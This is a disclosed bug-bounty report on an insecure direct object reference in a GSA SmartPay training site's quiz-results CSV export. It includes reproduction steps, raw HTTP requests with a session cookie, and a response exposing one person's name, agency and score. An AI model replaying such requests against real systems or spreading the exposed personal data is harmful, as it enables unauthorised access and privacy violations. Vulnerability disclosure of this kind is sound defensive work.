 # IDOR at training.smartpay.gsa.gov/reports/quizzes-taken-by-user

## Report Details
- **Report ID**: 1118638
- **URL**: https://hackerone.com/reports/1118638
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-06T07:01:07.473Z
- **Disclosed**: 2021-04-24T06:12:17.676Z

## Reporter
- **Username**: alihassam95
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_vdp

## Vulnerability Information
Hey,
I found an IDOR that allow anyone view other user result by changing USERID parameter.
/reports/quizzes-taken-by-user.csv/USERID

Step to Produce:
Go to the Section quizzes-taken-by-user as Shown in the Screenshot attached.
Step 2:
Click on Download CSV.
Step 3
Intercept the Request using the Burp Suite.
Step 4
Change the USERID.
/reports/quizzes-taken-by-user.csv/USERID
Attacker UserID:1226357
Victim USerID: 1226356

HTTP Request:

GET /reports/quizzes-taken-by-user.csv/1226357?page&_format=csv HTTP/1.1
Host: training.smartpay.gsa.gov
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://training.smartpay.gsa.gov/reports/quizzes-taken-by-user
Cookie: SSESS28e7f609ef3740479765aac8be8703ba=xzcTawn0KZkMPGcsSl2KlRBSwOH8PJDmJ5BpAKI5yNA
Upgrade-Insecure-Requests: 1


Change the User ID from 1226357 to 1226356


GET /reports/quizzes-taken-by-user.csv/1226356?page&_format=csv HTTP/1.1
Host: training.smartpay.gsa.gov
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://training.smartpay.gsa.gov/reports/quizzes-taken-by-user
Cookie: SSESS28e7f609ef3740479765aac8be8703ba=xzcTawn0KZkMPGcsSl2KlRBSwOH8PJDmJ5BpAKI5yNA
Upgrade-Insecure-Requests: 1


HTTP Response for 1226356:

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 06:48:40 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
X-Content-Type-Options: nosniff
Cache-Control: must-revalidate, no-cache, private
Content-Disposition: attachment; filename="quizzes-taken-by-user.csv"
X-Drupal-Dynamic-Cache: UNCACHEABLE
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
Access-Control-Allow-Credentials: true
Content-Length: 218
Connection: close
Content-Type: text/csv; charset=UTF-8

"First Name","Last Name",Agency,Title,Score,Started,Completed
Sharon,Cly-Stryker,"Department of the Interior","GSA SmartPay Travel Account (Account Holders/AOs)",100%,"Sat, 03/06/2021 - 00:44","Sat, 03/06/2021 - 01:29"

HTTP Response for 1226357
 
HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 06:49:48 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
X-Content-Type-Options: nosniff
Cache-Control: must-revalidate, no-cache, private
Content-Disposition: attachment; filename="quizzes-taken-by-user.csv"
X-Drupal-Dynamic-Cache: UNCACHEABLE
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
Access-Control-Allow-Credentials: true
Content-Length: 0
Connection: close
Content-Type: text/csv; charset=UTF-8

## Impact

Confidentiality will Compromised

## Attachments
- 1.PNG
